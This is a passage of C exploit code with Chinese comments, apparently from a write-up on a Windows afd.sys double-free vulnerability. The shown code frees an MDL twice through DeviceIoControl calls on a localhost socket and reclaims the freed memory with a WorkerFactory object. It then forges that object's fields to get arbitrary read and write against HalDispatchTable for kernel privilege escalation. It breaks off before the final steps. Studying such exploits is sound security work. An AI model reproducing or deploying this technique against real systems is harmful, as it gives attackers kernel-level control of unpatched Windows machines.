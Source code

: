 ```
    //这里初始化第二次IO控制的inputbuf  以到达第二次释放的目标
    static BYTE inbuf2[0x10];
    memset(inbuf2, 0, sizeof(inbuf2));
    *(ULONG*)inbuf2 = 1;
    *(ULONG*)(inbuf2 + 4) = 0x0AAAAAAA;
 
    WSADATA         WSAData;
    SOCKET         s;
    SOCKADDR_IN  sa;
    int             ierr;
 
    WSAStartup(0x2, &WSAData);
    s = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
 
    memset(&sa, 0, sizeof(sa));
    sa.sin_port = htons(135);
    sa.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");
    sa.sin_family = AF_INET;
    //创建会调用到afd.sys漏洞函数的socket句柄
    ierr = connect(s, (const struct sockaddr*)&sa, sizeof(sa));
 
    // 释放第一次申请的mdl结构，大小为0xA0
    DeviceIoControl((HANDLE)s, 0x1207F, (LPVOID)inbuf1, 0x30, NULL, 0, NULL, NULL);
 
    // 创建一个 WorkerFactory Object 来占坑释放的 mdl 0xA0 的空间
    HANDLE hCompletionPort = CreateIoCompletionPort(INVALID_HANDLE_VALUE, NULL, 1337, 4);
 
    //创建WorkerFactory对象
    DWORD Status = MyNtCreateWorkerFactory(&hWorkerFactory, GENERIC_ALL, NULL, hCompletionPort, (HANDLE)-1, NULL, NULL, 0, 0, 0);
 
    // 第二次释放  释放掉的内存是 WorkerFactory Object
    DeviceIoControl((HANDLE)s, 0x120C3, (LPVOID)inbuf2, 0x10, NULL, 0, NULL, NULL);
 
    //开始操作WorkerFactory Object
    BYTE WorkerFactory[0xA0] = { 0 };
 
    //申请的时候把对象前0x28字节复制过来 Handle置为NULL
    BYTE ObjHead[0x28] = {        0x00, 0x00, 0x00, 0x00, 0xA8, 0x00, 0x00, 0x00,   
                                0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
 
                                0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
                                0x00, 0x00, 0x00, 0x00, 0x16, 0x00, 0x08, 0x00,
                                0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00 }; 
    memcpy(WorkerFactory, ObjHead, 0x28);
 
    //任意读的地址  *(*(obj+0x64)+0xB4) = MyHalDispatchTable + 4
    PBYTE pObj = WorkerFactory + 0x28;
    *(DWORD*)(pObj + 0x64) = MyHalDispatchTable - 0xB4 + 4;
 
    //任意写   把 *arg3 的内容 写入到  *( *(*object+0x10)+0x1C )
    //*(*object+0x10)+0x1C = MyHalDispatchTable + 4
    //因为 *object 所以没办法在本对象内构造数据 
    //所以需要另一个内存来构造数据
    BYTE y[0x14] = { 0 };
    *(DWORD*)pObj = (DWORD)y;
    PBYTE py = y;
    //现在有一个内存y    *(y + 0x10) + 0x1C = MyHalDispatchTable + 4
    //所以 *(y+0x10) = MyHalDispatchTable + 4 - 0x1C  即可
    *(DWORD*)(py + 0x10) = MyHalDispatchTable + 4 - 0x1C;
 
    //现在把伪造的对象拷贝到释放掉的内存
    IO_STATUS_BLOCK IoStatus;
```